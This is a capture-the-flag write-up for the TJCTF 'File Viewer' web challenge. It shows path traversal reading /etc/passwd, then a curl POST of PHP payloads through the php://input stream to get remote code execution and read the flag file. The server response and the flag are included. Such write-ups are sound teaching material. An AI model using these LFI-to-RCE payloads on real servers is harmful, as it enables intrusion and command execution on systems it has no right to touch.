

**FILE VIEWER** 


**Category:** Web
**Concepts:** php, input streams, lfi, rce

**Problem Statement:**
So I've been developing this really cool [site](https://file_viewer.tjctf.org/) where you can read text files! It's still in beta mode, though, so there's only six files you can read.

**Hints**
The flag is in one directory somewhere on the server, all you have to do is find it...Oh wait. You don't have a shell, do you?




The website immediately gives away LFI through path traversal (PoC: /etc/passwd). Running fimap over the website revealed that no logs were accessible, so log poisoning to get a reverse shell was not possible. But, fimap said `php://input` stream was open(which took me wayy too long to realize). So, I poisoned a txt file with some php code and posted to `https://file_viewer.tjctf.org/reader.php?file=php://input`.

`curl -d "@payload.txt" -X POST https://file_viewer.tjctf.org/reader.php?file=php://input`

payload.txt(PoC): `<?php system("php -r 'phpinfo();'"); ?>`
payload.txt: `<?php system('more i_wonder_whats_in_here/flag.php'); ?>`

Response:
```console
<html>
    <head>
        <style type="text/css">
            .main {
            text-align: center;
            font-family: monospace;
            font-size: 30px;
            border: 3px solid blue;
            border-radius: 8px;
            position:absolute;
            top: 50%;
            left: 50%;
            transform: translate(-50%, -50%);
            }
            .main p {
                color: blue;
            }
            .main input {
            /* outline:none; */
            width: 100%;
            padding: 12px 20px;
            margin: 15px 0;
            display: inline-block;
            border: 3px solid blue;
            color:blue;
            border-radius: 8px;
            box-sizing: border-box;
            -webkit-transition-duration:0.4s;
            }
            .main input:focus {
            background-color: blue;
            color: white
            }
            input:focus::-webkit-input-placeholder
            {
                color: white;
            }
            .main button {
            color: blue;
            background-color: white;
            transition-duration:0.4s;
            font-size: 40px;
            font-family: monospace;
            border: 3px solid blue;
            border-radius: 8px;
            -webkit-transition-duration:0.4s;
            }
            .main ::placeholder {
            color: blue;
            transition-duration:0.4s;
            font-size: 15px;
            font-family: monospace;
            -webkit-transition-duration:0.4s;
            }
            .main .hidden {
            visibility:hidden;
            font-size:2px;
            }
            .main button:hover {
            color: white;
            background-color: blue
            }
            form {
                display: block;
                margin-top: 0em;
                margin-block-end: 0em;
            }
            h5 {
                display: block;
                font-size: 0.83em;
                margin-block-start: 0.6em;
                margin-block-end: 0.6em;
                margin-inline-start: 0px;
                margin-inline-end: 0px;
                font-weight: bold;
            }
        </style>
        <title>File Viewer</title>
    </head>
    <body>
        <fieldset class="main">
            <p> <strong>
                ::::::::::::::
i_wonder_whats_in_here/flag.php
::::::::::::::
<?php
    // tjctf{n1c3_j0b_with_lf1_2_rc3}
?>
            </strong></p>
        </fieldset>
    </body>
</html>
```

**FLAG:** tjctf{n1c3_j0b_with_lf1_2_rc3}


